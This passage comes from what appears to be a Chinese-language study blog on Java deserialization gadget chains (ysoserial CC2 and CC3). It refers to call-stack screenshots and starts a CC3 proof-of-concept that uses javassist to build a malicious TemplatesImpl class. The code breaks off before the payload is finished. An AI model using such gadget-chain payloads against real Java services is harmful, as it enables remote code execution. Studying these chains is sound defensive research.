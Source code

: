 	}

调用栈入下所示：

![CC2调用栈][p10]

最后的TemplatesImpl中的一些注意事项分析如下：

![CC2中TemplatesImpl一些分析][p11]

### CC3
POC入下所示：

	package com.pinger.javasec.ysoserial;
	
	import com.pinger.javasec.util.SerialUtil;
	import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
	import javassist.ClassClassPath;
	import javassist.ClassPool;
	import javassist.CtClass;
	import org.apache.commons.collections.Transformer;
	import org.apache.commons.collections.functors.ChainedTransformer;
	import org.apache.commons.collections.functors.ConstantTransformer;
	import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
	import org.apache.commons.collections.functors.InstantiateTransformer;
	import org.apache.commons.collections.map.LazyMap;
	import javax.xml.transform.Templates;
	import java.lang.annotation.Retention;
	import java.lang.reflect.Constructor;
	import java.lang.reflect.Field;
	import java.lang.reflect.InvocationHandler;
	import java.lang.reflect.Proxy;
	import java.util.HashMap;
	import java.util.Map;
	
	/**
	 * @author : p1n93r
	 * @date : 2021/4/1 19:22
	 * CC3 Gadget分析
	 */
	public class CC3 {
	
	    /**
	     * 需要一个空类作为javassist的模板
	     */
	    public static class Placeholder {}
	
	    public static Object getPayload() throws Exception{
	        // 恶意的类需要继承此类，否则最终在TemplatesImpl#defineTransletClasses()会异常
	        String abstractTransletClassPath = "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
	
	        // 使用javassist生成一个恶意的类
	        ClassPool classPool = ClassPool.getDefault();
	        classPool.insertClassPath(new ClassClassPath(CC3.Placeholder.class));
	        classPool.insertClassPath(new ClassClassPath(Class.forName(abstractTransletClassPath)));
	